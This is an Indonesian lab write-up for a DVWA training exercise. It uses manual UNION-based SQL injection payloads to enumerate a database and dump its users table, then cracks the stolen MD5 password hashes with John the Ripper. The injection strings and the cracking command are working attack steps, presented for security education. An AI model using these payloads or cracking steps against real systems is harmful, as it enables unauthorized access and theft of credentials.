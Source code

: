 # DVWA | Lesson 6
## Konfigurasi

###{ Manual SQL injection, John the Ripper}

## penjelasan
kali ini kita akan mencoba mendapatkan username dan password yang ada di dalam suatu database

pada lesson 6, kami menggunakan metasploid dan backtrack.

- pertama-tama agar backtrack dan metasploit mendapat IP, buka vm -> klik kanan -> setting -> network -> pilih bridge adapter

![alt text](./backtrack.PNG)
![alt text](./metasploit.png)

Alamat target DVWA (metasploitable) 
`http://10.151.34.170`

Alamat penyerang (backtrack)
`http://10.151.34.160`


## Skenario

- start metasploit dan backtrack yang sudah dikonfigurasi
- login ke dalam DVWA lewat firefox di backtrack

- setting DVWA security low
![alt text](./1.png)


# Mencoba SQL Injection Manual
1. injeksi basic
- masukkan `$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";`
- klik submit
- disini kita mendapatkan username admin
![alt text](./2.png)

2. always true scenario
- masukkan 
    `%' or '0'='0`
- klik submit
- hasil : 
![alt text](./3.png)

3. versi database
- masukkan 
    `%' or 0=0 union select null, version() #`
- klik submit

![alt text](./4.png)

4. menampilkan database user
- masukkan 
    `%' or 0=0 union select null, user() #`
- klik submit
![alt text](./5.png)

5. menampilkan nama database
- masukkan 
    `%' or 0=0 union select null, database() #`
- klik submit
![alt text](./6.png)

6. menampilkan semua tabel yang ada pada tabel information_schema
- masukkan
    `%' and 1=0 union select null, table_name from information_schema.tables #`
- klik submit
![alt text](./7.png)

7. menampilkan semua user yang ada pada tabel information_schema
- masukkan
    `%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#`
- klik submit
![alt text](./8.png)

8. menampilkan semua fields column yang ada pada tabel information_Schema
- masukkan 
    `%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #`
- klik submit
![alt text](./9.png)

9. menampilkan semua isi content dari kolom yang ada pada information_schema
- masukkan
    `%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`
- klik submit
![alt text](./10.png)
- copy + paste semua user dan password yang ada
- paste di note 
- simpan dalam file .txt pada folder john
    -> pentest -> passwords -> john
![alt text](./11.png)


## Hasil
-  sekarang kita akan mencoba dekripsi hash password yang telah kita simpan pada note
- masuk ke folder /pentest/passwords/john
- masukkan command 
    ` ./john --format=raw-MD5 dvwa_password.txt`
![alt text](./12.png)

- username dan password berhasil didapatkan